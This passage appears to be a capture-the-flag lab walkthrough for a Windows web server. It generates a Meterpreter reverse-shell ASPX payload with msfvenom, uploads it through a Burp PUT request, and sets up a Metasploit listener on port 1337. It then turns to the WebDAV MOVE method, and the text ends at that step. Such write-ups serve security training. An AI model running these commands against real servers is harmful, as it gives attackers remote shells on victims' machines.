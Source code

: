 *we are looking for the windows/meterpreter/reverse_tcp*

![](https://paper-attachments.dropbox.com/s_BBEBF86C37351892826D68F25743BDBE3366E0493B005B009C8DF7423AA48717_1557301593752_image.png)

List formats:
    msfvenom --help-formats

![](https://paper-attachments.dropbox.com/s_BBEBF86C37351892826D68F25743BDBE3366E0493B005B009C8DF7423AA48717_1557301677126_image.png)

Create payload:
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=1337 -f aspx

![](https://paper-attachments.dropbox.com/s_BBEBF86C37351892826D68F25743BDBE3366E0493B005B009C8DF7423AA48717_1557301807051_image.png)

*copy the payload and inject into our burp PUT*

![](https://paper-attachments.dropbox.com/s_BBEBF86C37351892826D68F25743BDBE3366E0493B005B009C8DF7423AA48717_1557301864999_image.png)

*aspx payload has been uploaded to target.*

## msf handler setup
    use exploit/multi/handler
    set LHOST tun0
    set LPORT 1337
    set payload windows/meterpreter/reverse_tcp
    exploit -j

![](https://paper-attachments.dropbox.com/s_BBEBF86C37351892826D68F25743BDBE3366E0493B005B009C8DF7423AA48717_1557302020666_image.png)

*Listener is now up for port 1337.* 

## upload aspx to target
change the ippsec.html to ippsec.aspx and see it it uploads.

![](https://paper-attachments.dropbox.com/s_BBEBF86C37351892826D68F25743BDBE3366E0493B005B009C8DF7423AA48717_1557302181165_image.png)

*at this point we are faced with a forbidden.*

## analyzing the OPTIONS
From the nmap scan we saw we are able to perform a few OPTIONS commands and if we test the same command nmap sent during the scan via Burp we can retrieve the same list

![](https://paper-attachments.dropbox.com/s_BBEBF86C37351892826D68F25743BDBE3366E0493B005B009C8DF7423AA48717_1557302323414_image.png)

*of interest is the MOVE command.*
google “http MOVE” TO SEE HOW TO DO THIS

![](https://paper-attachments.dropbox.com/s_BBEBF86C37351892826D68F25743BDBE3366E0493B005B009C8DF7423AA48717_1557302367074_image.png)

![](https://paper-attachments.dropbox.com/s_BBEBF86C37351892826D68F25743BDBE3366E0493B005B009C8DF7423AA48717_1557302391858_image.png)

